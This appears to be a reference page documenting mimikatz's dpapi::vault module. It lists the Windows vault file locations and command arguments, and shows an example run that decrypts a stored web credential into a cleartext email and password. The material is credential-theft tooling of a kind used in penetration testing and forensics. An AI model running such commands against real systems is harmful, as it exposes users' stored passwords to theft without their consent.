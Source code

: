 # vault

`dpapi::vault` decrypts DPAPI vault credentials from the [Credential Store](https://support.microsoft.com/en-us/windows/accessing-credential-manager-1b5c916a-6a16-889f-8581-fc16e8165ac0). It has the following command line arguments:

* `/cred`: the _**.vcrd**_ files can be found at `C:\Users\<UserName>\AppData\Local\Microsoft\Vault`, `C:\Users\<UserName>\AppData\Roaming\Microsoft\Vault,` `C:\ProgramData\Microsoft\Vault` and `C:\Windows\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault`
* `/policy`: The _**policy.vpol**_ file can be found at `C:\ProgramData\Microsoft\Vault\`
* `/password`: the password to decrypt the vault credentials
* `/masterkey`: the masterkey to use for decryption. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi).
* `/unprotect`: display the decryption results on screen

```
mimikatz # dpapi::vault /cred:"C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28\21CD6FA9B5E4C7D1D04AE0182DD7F440F54E02ED.vcrd" /policy:"C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28\Policy.vpol" /masterkey:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
**VAULT CREDENTIAL**
  SchemaId            : {3ccd5499-87a8-4b10-a215-608888dd3b55}
  unk0                : 00000004 - 4
  LastWritten         : 13/12/2021 21:33:59
  unk1                : ffffffff - 4294967295
  unk2                : 00000000 - 0
  FriendlyName        : Internet Explorer
  dwAttributesMapSize : 00000030 - 48
  * Attribute   1 @ offset 00000080 - 128  (unk 00000020 - 32)
  * Attribute   2 @ offset 000000b5 - 181  (unk 00000020 - 32)
  * Attribute   3 @ offset 000000ea - 234  (unk 00000020 - 32)
  * Attribute 100 @ offset 00000100 - 256  (unk 00000020 - 32)
  **VAULT CREDENTIAL ATTRIBUTE**
    id      : 00000001 - 1
    unk0/1/2: 00000002/00000007/0000000a
    Data    : 168989db87d1e9011a33035f2aa7d104ba57ed82ca427d10b07ca202c8f1d272
  **VAULT CREDENTIAL ATTRIBUTE**
    id      : 00000002 - 2
    unk0/1/2: 00000002/00000007/0000000a
    Data    : ee08e5dc3f49367fc97b4facc65a748b27f3d814fe4ce177c1eee8c221928839
  **VAULT CREDENTIAL ATTRIBUTE**
    id      : 00000003 - 3
    unk0/1/2: 00000000/00000007/0000000a
  **VAULT CREDENTIAL ATTRIBUTE**
    id      : 00000064 - 100
    unk0/1/2: 00000000/00000008/0000000a
    IV      : edd18a92b5db9a1984bd6600240b642a
    Data    : 9c8f1a59cd4c3a7288c7612e51ba9822bda64128729eb0bd501e182a3eca1890a7212a41836961320fb07651c7206185a8c39f64f1ac60d244e38a3be85b766ed6d7db5973a2b527c3eb4f0900fbef5f03cc14a9b333148316fbc06098c47ced7af023b4c74c2409c446e95156e16633538c5df6899cb14266445efcbe0b8a5b592806a31cdbdf061ca6086e6086af44c2631bdc393d30174a81cd86816b9472c68fe274592c024f0526ff5cf5aa43a960b1a5bf10468876bcda3412507ea393a21cbb617bc93ad8f08f21ad83aa8055

**VAULT POLICY**
  version : 00000001 - 1
  vault   : {4bf4c442-9b8a-41a0-b380-dd4a704ddb28}
  Name    : Web Credentials
  unk0/1/2: 00000001/00000000/00000001
  **VAULT POLICY KEY**
    unk0  : {dd73da0b-fd83-4712-af8b-d153c710c6b9}
    unk1  : {dd73da0b-fd83-4712-af8b-d153c710c6b9}
    **BLOB**
      dwVersion          : 00000001 - 1
      guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
      dwMasterKeyVersion : 00000001 - 1
      guidMasterKey      : {5c22983f-77ee-41e4-9086-8073d664e417}
      dwFlags            : 20000000 - 536870912 (system ; )
      dwDescriptionLen   : 00000000 - 0
      szDescription      : (null)
      algCrypt           : 00006603 - 26115 (CALG_3DES)
      dwAlgCryptLen      : 000000c0 - 192
      dwSaltLen          : 00000010 - 16
      pbSalt             : 07da103f232873a46fcaba89df0a9b53
      dwHmacKeyLen       : 00000000 - 0
      pbHmackKey         :
      algHash            : 00008004 - 32772 (CALG_SHA1)
      dwAlgHashLen       : 000000a0 - 160
      dwHmac2KeyLen      : 00000010 - 16
      pbHmack2Key        : c66b772816ab01918d13cafea8163d12
      dwDataLen          : 00000068 - 104
      pbData             : e3ce970b77864701ac345f5f3afef1419f36e628ce32e5053e13fc81727acfc62d7d70126ea5b3e3686bf527bb7ec6f609dc787d10b1329e524994a59d81a2e79115c55127c63d28ba75fa000425d650d21b01465c6affbe5f9b4d01aaa143b3e993042a6b63c1e7
      dwSignLen          : 00000014 - 20
      pbSign             : c39e8a8fb985ac20bc0a607485f49d7fbe45b678



Decrypting Policy Keys:
 * volatile cache: GUID:{5c22983f-77ee-41e4-9086-8073d664e417};KeyHash:850247e2dd89c50536c05bdcee1a56c395e752cf;Key:available
 * masterkey     : 3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
  AES128 key: 0fdfe3d0bf2550e7fd25f37898b3dd77
  AES256 key: 888bb82eca576c5d154f024d2980b9a1eacb904ad86b1265ac25b816f57fb3d7

  > Attribute 1 : 7b506f2d6b81d939a8e0456f036ee8970856ff70
  > Attribute 2 : 0a0c5eef791157ee37f51258c5747ee205a4f18c
  > Attribute 3 :
  > Attribute 100 :
  **VAULT CREDENTIAL CLEAR ATTRIBUTES**
    version: 00000001 - 1
    count  : 00000004 - 4
    unk    : 00000001 - 1

    * identity      : myemail@hotmail.com
    * ressource     : https://login.live.com/
    * authenticator : MySuperDuperPass
    * property 100  : c5 a6 4d 4e 34 22 d9 4a a5 9d c8 66 c8 3e cb a6
```
